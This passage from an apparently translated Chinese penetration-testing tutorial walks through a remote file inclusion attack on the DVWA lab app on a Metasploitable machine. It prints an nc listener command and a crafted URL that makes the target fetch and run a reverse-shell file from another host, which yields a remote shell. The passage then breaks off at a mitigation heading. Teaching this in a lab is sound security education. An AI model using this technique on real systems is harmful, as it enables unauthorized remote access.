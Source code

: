在开始远程包含之前，请像在*代码执行漏洞*部分那样，在 Kali 上监听连接。输入以下`nc`命令以监听连接：

```
nc -vv -l -p 8080 
```

现在我们应该在监听连接，如下图所示：

![](img/b9820fce-af6a-42ec-87a4-e482d3970bfe.png)

现在，我们将不再将文件包含在同一服务器上，而是将远程文件包含在 URL 中。URL 更改为`http://10.0.2.4/dvwa/vulnerabilities/fi/?page=http://10.0.2.15/reverse.txt`，如下图所示：

![](img/317eb379-3fb3-464e-b372-98051963c1ac.png)

如果我们现在检查文件，它将在`10.0.2.15`上执行，这将为我们提供与 Metasploitable 计算机的远程连接。返回到终端，输入`uname -a`，我们将现在获得对 Metasploitable 机器的完全访问权限，如下图所示：

![](img/82b27373-17e9-4fe2-ba90-47eec00d6294.png)

我们还可以在 Metasploitable 机器上执行诸如`ls`和`pwd`的命令。

# 基本缓解
